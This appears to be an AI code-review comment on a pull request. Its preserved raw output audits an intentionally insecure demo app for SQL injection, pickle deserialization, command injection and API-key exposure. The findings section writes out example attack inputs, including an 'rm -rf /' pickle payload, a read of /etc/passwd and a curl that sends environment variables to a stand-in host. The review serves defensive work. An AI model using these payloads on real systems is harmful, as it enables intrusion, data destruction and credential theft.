

<!-- torii-review pr=bench-f70 run=local -->
## 🏴‍☠️ Torii Review — PR #bench-f70

**Verdict:** COMMENT
**Confidence:** low
**Score:** 40/100
**Review effort:** 2/5

### Summary
Agent output did not match the review contract (missing: ### Security audit). Raw content preserved below.

### Walkthrough
- Contract repair only — re-run for a full structured review

### Architecture diagram
<!-- torii-mermaid -->

_Auto-generated from 0 changed file(s) (F57). Edges between groups are adjacency, not proven runtime dependencies._



### Blocking
- None (contract repair — re-run if this looks incomplete)

### Key findings
None — normalizer fallback.

### Security audit
No

### Suggestions
- None

### Code suggestions
None

### Nits
- None

### Suggested test plan
<!-- torii-testplan -->

_Auto-generated (F61, deterministic). 0 case(s) (0 P0, 0 P1); 0 prod / 0 test file(s); 0 symbol(s) from diff. Authors: treat P0 as merge-blocking coverage gaps; model may refine._

None — no actionable test scenarios derived from files/diff.

### Tests & risk
- Relevant tests added/updated: unknown
- Coverage: unknown
- Risk: unknown
- Rollback: n/a

### What I checked
- Normalizer only

### Raw agent output
**Verdict:** REQUEST CHANGES
**Score:** 5 / 100
**Review effort:** 1
**Security audit:** 4 confirmed sinks — SQLi, RCE (pickle), RCE (shell), secrets exposure

---

### Summary
This is an intentionally insecure demo file, but under Torii Gate rules every confirmed sink is blocking regardless of intent. Four high/critical paths reachable without authentication:

- CWE-89 SQL injection via `/search`
- CWE-502 unsafe pickle deserialization via `/load`
- CWE-78 command injection via `/run`
- CWE-200/798 secrets exposure via `/secret`

All four matched known TP signatures with hub_boost from federated archival search.

---

### Blocking
| # | Path | CWE | Trigger |
|---|------|-----|---------|
| 1 | `demo/insecure/app.py:16` | CWE-89 | `cur.execute(f"SELECT ... '{q}'")` — URL param `q` reaches SQL sink unescaped |
| 2 | `demo/insecure/app.py:22` | CWE-502 | `pickle.loads(request.data)` — raw POST body deserialized, arbitrary code execution |
| 3 | `demo/insecure/app.py:28` | CWE-78 | `subprocess.check_output(cmd, shell=True)` — URL param `cmd` runs as shell command |
| 4 | `demo/insecure/app.py:33` | CWE-200 | `OPENROUTER_API_KEY` returned in HTTP response body |

---

### Key findings
**1. SQL injection (CWE-89) — `demo/insecure/app.py:16`**

```python
q = request.args.get("q", "")
cur.execute(f"SELECT * FROM items WHERE name = '{q}'")
```

Attacker trigger: `GET /search?q=' OR 1=1--` extracts full table; `GET /search?q=' UNION SELECT ...--` pivots to other tables. The f-string interpolates user input directly into the SQL statement with zero sanitization.

**2. Unsafe deserialization (CWE-502) — `demo/insecure/app.py:22`**

```python
pickle.loads(request.data)
```

Attacker trigger: `POST /load` with a crafted pickle payload (`cos\nsystem\n(S'rm -rf /'\ntR.`) achieves remote code execution on the server. `pickle.loads` on attacker-controlled bytes is a well-known RCE vector — pickle can call arbitrary functions during deserialization.

**3. Command injection (CWE-78) — `demo/insecure/app.py:28`**

```python
subprocess.check_output(cmd, shell=True)
```

Attacker trigger: `GET /run?cmd=cat /etc/passwd` or `GET /run?cmd=; curl http://evil/$(env)` — `shell=True` passes the string to `/bin/sh -c`, so shell metacharacters (`;`, `|`, `$()`, backticks) execute arbitrary commands. No input validation or allowlist.

**4. Secrets exposure (CWE-200) — `demo/insecure/app.py:33`**

```python
return {"key": os.environ.get("OPENROUTER_API_KEY", "missing")}
```

Attacker trigger: unauthenticated `GET /secret` returns the API key in the response body. If the env var is set, the real credential leaks. Even the "missing" fallback confirms the key's absence to an attacker.

---

### Multi-lens checklist (security pack)

| Lens | Status | Note |
|------|--------|------|
| Injection (SQL/LDAP/OS) | **concern** | SQLi line 16, cmdi line 28 |
| AuthZ / authN bypass | **concern** | All endpoints are unauthenticated; secrets endpoint has no auth guard |
| XSS / output encoding | n/a | No HTML rendering in diff |
| CSRF | n/a | GET-only endpoints, but `/load` is POST — no CSRF token but low standalone risk |
| SSRF / outbound | n/a | No outbound fetches in diff |
| Path traversal | n/a | No file-path manipulation |
| Unsafe deserialize | **concern** | `pickle.loads` line 22 |
| Crypto misuse | n/a | No crypto in diff |
| Secrets / credentials | **concern** | `OPENROUTER_API_KEY` line 33 |
| Supply-chain / deps | n/a | No dependency changes |

---

### Tests & risk
| Risk | Detail |
|------|--------|
| Exploitability | Trivial — all four are one-request unauthenticated attacks |
| Data loss risk | SQLi can drop tables; cmdi can delete files |
| Credential theft | `/secret` leaks API key; cmdi can dump env |
| Remediation effort | Low — parameterized queries, `shell=False` + list args, `json`/safe parser, remove secret endpoint |

No test file found in the diff. All four paths lack negative security tests. If this PR claims to fix anything, missing tests for
…
_(raw truncated by normalizer)_

---
*Torii · Hermes Agent · OpenRouter · memory-backed review*
*Cost / usage: model=`deepseek/deepseek-v4-pro` · ~$0.0073 (estimated) · 21k tokens · 2 API calls*
